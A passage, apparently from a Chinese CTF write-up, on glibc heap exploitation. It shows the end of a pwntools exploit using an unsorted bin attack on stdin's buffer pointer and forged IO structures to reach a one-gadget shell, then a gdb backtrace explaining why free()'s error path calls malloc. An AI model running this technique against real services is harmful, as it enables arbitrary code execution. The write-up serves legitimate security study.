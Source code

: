 ```
    # unsorted bin attack
    delheap(2)
    payload = "x00"*0x40 + p64(0) + p64(0xb1) + p64(0) + p64(buf_end_addr-0x10)
    newheap(payload)

    payload = ("x00"*5 + p64(lock_addr) + p64(0)*9 + p64(io_jump_addr)).ljust(0x1ad,"x00")+ p64(system_addr) # set stdin-&gt;buf_end = unsorted_bin_addr
    newheap(payload)
    delheap(0)

if __name__=='__main__':
    libc_addr = leak_libc()
    system_addr = libc_addr + 0xf24cb
    malloc_hook_addr = libc_addr + libc.symbols['__malloc_hook']
    buf_end_addr = libc_addr + 0x3c1900
    lock_addr = libc_addr + 0x3c3770
    io_jump_addr = libc_addr + 0x3be400
    heap_addr = leak_heap()
    log.success("system_addr: %s"%(hex(system_addr)))
    log.success("malloc_hook_addr: %s"%(hex(malloc_hook_addr)))
    log.success("heap_addr: %s"%(hex(heap_addr)))
    log.success("stdin_addr: %s"%(hex(buf_end_addr)))
    #raw_input()
    exploit(heap_addr)
    p.interactive()
```

那么这里最后还有个问题，就是明明我们修改的是**__malloc_hook**，为啥最后是调用**delheap**来实现跳转的呢？这是因为在最后调用**free**的时候，出现了报错，所以调了**malloc_printerr**来打印错误，而这个函数是会调用**malloc**的，调用过程如下：

```
#0  __GI___libc_malloc (bytes=bytes@entry=0x24) at malloc.c:2902
#1  0x00007fdb8b341f5a in __strdup (s=0x7fff4018f390 "/lib/x86_64-lin"...) at strdup.c:42
#2  0x00007fdb8b33d7df in _dl_load_cache_lookup (name=name@entry=0x7fdb8b0e7646 "libgcc_s.so.1") at dl-cache.c:311
#3  0x00007fdb8b32e169 in _dl_map_object (loader=loader@entry=0x7fdb8b5494c0, name=name@entry=0x7fdb8b0e7646 "libgcc_s.so.1", type=type@entry=0x2, trace_mode=trace_mode@entry=0x0, mode=mode@entry=0x90000001, nsid=) at dl-load.c:2342
#4  0x00007fdb8b33a577 in dl_open_worker (a=a@entry=0x7fff4018fa80) at dl-open.c:237
#5  0x00007fdb8b335564 in _dl_catch_error (objname=objname@entry=0x7fff4018fa70, errstring=errstring@entry=0x7fff4018fa78, mallocedp=mallocedp@entry=0x7fff4018fa6f, operate=operate@entry=0x7fdb8b33a4d0, args=args@entry=0x7fff4018fa80) at dl-error.c:187
#6  0x00007fdb8b339da9 in _dl_open (file=0x7fdb8b0e7646 "libgcc_s.so.1", mode=0x80000001, caller_dlopen=0x7fdb8b070b81, nsid=0xfffffffffffffffe, argc=, argv=, env=0x7fff401907a8) at dl-open.c:660
#7  0x00007fdb8b09e56d in do_dlopen (ptr=ptr@entry=0x7fff4018fca0) at dl-libc.c:87
#8  0x00007fdb8b335564 in _dl_catch_error (objname=0x7fff4018fc90, errstring=0x7fff4018fc98, mallocedp=0x7fff4018fc8f, operate=0x7fdb8b09e530, args=0x7fff4018fca0) at dl-error.c:187
#9  0x00007fdb8b09e624 in dlerror_run (args=0x7fff4018fca0, operate=0x7fdb8b09e530) at dl-libc.c:46
#10 __GI___libc_dlopen_mode (name=name@entry=0x7fdb8b0e7646 "libgcc_s.so.1", mode=mode@entry=0x80000001) at dl-libc.c:163
#11 0x00007fdb8b070b81 in init () at ../sysdeps/x86_64/backtrace.c:52
#12 __GI___backtrace (array=array@entry=0x7fff4018fd00, size=size@entry=0x40) at ../sysdeps/x86_64/backtrace.c:105
#13 0x00007fdb8af7a9f5 in backtrace_and_maps (do_abort=, do_abort@entry=0x2, written=, fd=fd@entry=0x3) at ../sysdeps/unix/sysv/linux/libc_fatal.c:47
#14 0x00007fdb8afd27e5 in __libc_message (do_abort=do_abort@entry=0x2, fmt=fmt@entry=0x7fdb8b0ebe98 "*** Error in `%"...) at ../sysdeps/posix/libc_fatal.c:172
#15 0x00007fdb8afdb37a in malloc_printerr (ar_ptr=, ptr=, str=0x7fdb8b0ebff0 "free(): invalid"..., action=0x3) at malloc.c:5006
#16 _int_free (av=, p=, have_lock=0x0) at malloc.c:3867
#17 0x00007fdb8afdf53c in __GI___libc_free (mem=) at malloc.c:2968
```
